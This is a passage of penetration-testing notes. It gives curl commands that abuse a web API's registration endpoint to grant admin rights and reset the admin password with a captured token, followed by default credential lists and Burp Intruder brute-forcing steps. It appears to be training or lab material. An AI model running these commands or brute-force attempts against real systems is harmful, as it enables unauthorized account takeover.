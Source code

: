 2. Look for a status message in response that indicates the function is active/requires additional parameters.
3. Craft a request with necessary parameters.

        curl -d '{"password":"password","username":"test123","email":"pwn@test.com"}' -H 'Content-Type: application/json' http://$TARGET_IP/users/v1/register

5. If user successfully created check for abilty to use administrative key to enable admin permissions.

        curl -d '{"password":"","username":"offsec","admin":"True"}' -H 'Content-Type: application/json' http://$TARGET_IP/users/v1/register

### Change user pw

- Using auth token recieved from curl login to craft a message to send to password function

        curl -X 'PUT' 'http://$TARGET_IP/users/v1/admin/password' -H 'Content-Type: application/json' -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' -d '{"password": "pwned"}'
	

--------------------------------------------------------------------------

## Web Portals

### Test Default passwords
- Google documentation for default passwords and test them:

      site:webapplication.com password

### Construct wordlist

- Crawl/build wordlist from entire site with cewl

- Include Default/weak logins:
    admin admin
    admin password
    admin <empty_string>
    admin nameofservice
    root root
    root admin
    root password
    root nameofservice
    <username_> password
    <username_> admin
    <username_> username
    <username_> nameofservice

### Brute force with Burp Suite Intruder
https://portswigger.net/burp/documentation/desktop/tools/intruder
-   Check both http response codes and response lengths for unusual responses to identify   successful logins
-   Recommended wordlist: 
